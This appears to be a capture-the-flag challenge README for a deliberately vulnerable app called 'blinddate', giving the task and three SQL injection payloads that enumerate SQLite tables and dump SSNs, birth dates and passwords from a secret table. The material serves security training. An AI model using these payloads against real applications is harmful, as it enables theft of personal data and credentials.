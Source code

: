 # blinddate

This app has a blind SQL injection.
The task is to first find the name of the table with the secret data and then extract the SSNs and DOBs.
The flag is one of the SSNs

' UNION SELECT name, NULL, NULL FROM sqlite_master WHERE type='table' --

' UNION SELECT sql, NULL, NULL FROM sqlite_master WHERE name='secret_info' --

' UNION SELECT dob, ssn, password FROM secret_info --
